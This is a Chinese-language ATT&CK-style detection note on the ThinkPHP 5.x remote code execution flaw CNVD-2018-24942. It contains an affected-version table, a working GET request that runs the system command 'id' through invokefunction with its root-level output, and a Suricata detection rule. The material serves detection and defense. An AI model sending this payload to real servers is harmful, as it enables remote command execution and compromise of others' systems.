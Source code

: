 # T1190-CNVD-2018-24942-thinkphp5.x任意代码执行漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

ThinkPHP 5.0.全版本，经过其他安全人员实际测试，并非针对5.0全版本

实际影响范围：

```yml
版本名  是否可被攻击  攻击条件
5.0.0  否          无
5.0.1  否          无
5.0.2  否          无
5.0.3  否          无
5.0.4  否          无
5.0.5  否          无
5.0.6  否          无
5.0.7  否          无
5.0.8  是          无需开启debug
5.0.9  是          无需开启debug
5.0.10  是          无需开启debug
5.0.11  是          无需开启debug
5.0.12  是          无需开启debug
5.0.13  是          需开启debug
5.0.14  是          需开启debug
5.0.15  是          需开启debug
5.0.16  是          需开启debug
5.0.17  是          需开启debug
5.0.18  是          需开启debug
5.0.19  是          需开启debug
5.0.20  否          无
5.0.21  是          需开启debug
5.0.22  是          需开启debug
5.0.23  是          需开启debug
```

## 检测日志

HTTP

## 测试复现

更多POC请参考：<https://blog.csdn.net/weixin_40709439/article/details/86564457>

```yml
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id HTTP/1.1
Host: 172.17.41.103:33349
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Host: 172.17.41.103:33349
Date: Mon, 10 Aug 2020 16:44:19 +0800
Connection: close
X-Powered-By: PHP/7.2.12
Content-type: text/html; charset=UTF-8

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"CNVD-2018-24942-thinkphp5.x任意代码执行漏洞";flow:established,to_server;content:"GET";http_method;content:"/index.php/?s=index/";pcre:"/call_user_func_array/";http_uri;reference:url,blog.csdn.net/weixin_40709439/article/details/86564457;classtype:web-application-attck;sid:3002021;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

thinkphp5.0和5.1 rce poc总结

<https://blog.csdn.net/weixin_40709439/article/details/86564457>
